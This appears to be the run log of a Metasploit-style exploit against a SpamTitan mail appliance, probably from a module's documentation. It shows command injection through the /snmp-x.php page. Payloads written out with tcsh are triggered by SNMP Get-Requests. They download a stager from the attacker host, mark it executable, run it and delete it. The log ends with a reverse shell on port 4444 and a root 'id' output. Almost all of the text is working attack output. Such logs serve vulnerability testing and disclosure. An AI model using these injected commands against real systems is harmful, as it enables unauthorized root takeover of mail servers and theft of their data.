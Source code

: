 ```
[*] Send an SNMP Get-Request to trigger the payload
[*] Client 172.16.60.101 (fetch libfetch/2.0) requested /EtQflZ
[*] Sending payload to 172.16.60.101 (fetch libfetch/2.0)
[+] SNMP Get-Request response (status=noError): [1] 16656
[*] Command Stager progress -  50.00% done (54/108 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'chmod\ \+x\ /tmp/uTJGnSFj&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16685
[*] Command Stager progress -  70.37% done (76/108 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c '/tmp/uTJGnSFj&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16714
[*] Command shell session 3 opened (172.16.60.1:4444 -> 172.16.60.101:45568) at 2020-10-28 15:58:09 +0100
[*] Command Stager progress -  82.41% done (89/108 bytes)
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'rm\ -f\ /tmp/uTJGnSFj&'#
[*] Send an SNMP Get-Request to trigger the payload
[+] SNMP Get-Request response (status=noError): [1] 16743
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
uname -a
FreeBSD spamtitan.example.com 10.1-RELEASE-p8 FreeBSD 10.1-RELEASE-p8 #1: Wed May  6 10:36:09 IST 2015     root@stbuild-10-amd64.spamtitan.com:/usr/obj/usr/src/sys/SPAMTITAN  amd64
^C
Abort session 3? [y/N]  y

[*] 172.16.60.101 - Command shell session 3 closed.  Reason: User exit
```
